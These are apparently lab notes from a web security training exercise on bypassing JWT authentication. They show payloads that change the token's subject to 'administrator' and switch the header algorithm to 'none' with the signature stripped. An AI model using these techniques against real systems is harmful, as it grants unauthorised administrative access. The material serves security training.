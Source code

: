 # JWT


### Lab: JWT authentication bypass via unverified signature


Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```


Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}

- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.
{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```